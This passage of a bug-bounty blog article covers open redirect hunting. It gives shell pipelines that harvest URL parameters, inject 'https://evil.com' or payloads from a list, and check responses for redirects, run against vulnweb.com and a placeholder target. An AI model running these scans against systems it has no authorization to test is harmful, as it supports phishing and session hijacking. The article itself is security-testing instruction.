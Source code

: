 Open Redirect testing
Open Redirect vulnerabilities allow attackers to redirect users to malicious sites using trusted domain links often used in phishing or session hijacking attacks. This section covers simple to advance methods to detect and test for open redirect issues in URLs and parameters.

cat final.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|url=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee redirect_params.txt
final.txt | gf redirect | uro | sort -u | tee redirect_params.txt

cat redirect_params.txt | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"

subfinder -d vulnweb.com -all | httpx-toolkit -silent | gau | gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
cat redirect_params.txt | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"

echo target.com -all | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"

subfinder -d target.com -all | httpx-toolkit -silent | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
From Zero to Hero: Hunting High-Paying Open Redirect Bugs in Web Apps
Step-by-Step Guide to Master Open Redirect Bugs and Earn High-Paying Bounties
infosecwriteups.com

📝 Note: This checklist and the methods shared here are still a work in progress. I’ll be adding more advanced techniques and tools as I find time. Make sure to revisit this article in some days or weekly for the latest updates and additions!

Conclusion
This methodology offers a structured and proven approach to web application security testing, built on years of hands-on experience from the bug bounty community. While tools play a role, true success comes from understanding core technologies, thinking like an attacker and staying persistent through trial and error.

Upnext: If you found this helpful, you’ll definitely want to check out my article How I Found a Critical IDOR in Indian Railways Corporate Booking Portal Exposing Millions of Users’ Personal Data. It’s a real-world case study of impact, exploitation and responsible disclosure 👇

How I Found a Critical IDOR in Indian Railways Corporate Booking Portal Exposing Millions of Users…
A step-by-step breakdown of how a simple IDOR vulnerability exposed confidential personal details, allowed unauthorized…
infosecwriteups.com

Connect with Me
If you enjoyed this article and want to stay updated with more content on bug bounty and cybersecurity follow me on:
Twitter (X): @coffinxp7 | GitHub coffinxp | Website: lostsec.xyz | YouTube: Lostsec | Discord Lostsec

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly
